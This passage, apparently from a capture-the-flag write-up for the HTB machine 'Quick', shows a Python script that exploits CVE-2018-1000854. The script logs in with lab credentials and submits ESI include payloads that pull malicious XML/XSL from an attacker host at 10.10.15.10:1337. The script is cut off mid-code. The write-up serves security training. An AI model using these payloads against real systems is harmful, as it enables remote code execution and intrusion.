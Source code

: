 Next I created a python script to automate the file upload and ticket search activation process.

```python
#!/usr/bin/env python3
#coding: utf8
#Created by zweilosec (WolfZweiler) for CVE-2018-1000854 (as exposed in HTB - quick)

import requests
from bs4 import BeautifulSoup
import time
import sys

login_url = "http://quick.htb:9001/login.php"
login_data = 'email=elisa@wink.co.uk&password=Quick4cc3$$'
login_headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Cookie': 'PHPSESSID=03u65s156tk17dfddsi28m7rld', 
    'Referer': 'http://quick.htb:9001/login.php',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Host': 'quick.htb:9001'}
#TODO: Get headers from an initial GET request so have accurate PHPSESSID (not hard-coded)

ticket_url = "http://quick.htb:9001/ticket.php"
ticket_headers = {
    'Host': 'quick.htb:9001',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Referer': 'http://quick.htb:9001/ticket.php',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'PHPSESSID=03u65s156tk17dfddsi28m7rld'}

esi1 = 'title=evil&msg="<esi:include src="http://10.10.15.10:1337/evil.xml" stylesheet="http://10.10.15.10:1337/evil.xsl"></esi:include>"&id=TKT-1234'
esi2 = 'title=evil1&msg="<esi:include src="http://10.10.15.10:1337/evil1.xml" stylesheet="http://10.10.15.10:1337/evil1.xsl"></esi:include>"&id=TKT-2345'
esi3 = 'title=evil2&msg="<esi:include src="http://10.10.15.10:1337/evil2.xml" stylesheet="http://10.10.15.10:1337/evil2.xsl"></esi:include>"&id=TKT-3456'

ticGet1_url = 'http://quick.htb:9001/search.php?search=1234'
ticGet2_url = 'http://quick.htb:9001/search.php?search=2345'
ticGet3_url = 'http://quick.htb:9001/search.php?search=3456'
ticGet_headers = {
    'Host': 'quick.htb:9001',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
    'Accept': '*/*',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Referer': 'http://quick.htb:9001/home.php',
    'X-Requested-With': 'XMLHttpRequest',
    'Connection': 'close',
    'Cookie': 'PHPSESSID=03u65s156tk17dfddsi28m7rld',
    'DNT': '1'}

esi1_r, esi2_r, esi3_r = None, None, None

login_r = requests.post(login_url, headers = login_headers, data = login_data)
#login_r.status_code should be == 302, however this login request is not working correctly
#need to further troubleshoot; for now bypassed by logging in with burp
if login_r.status_code == 200:
```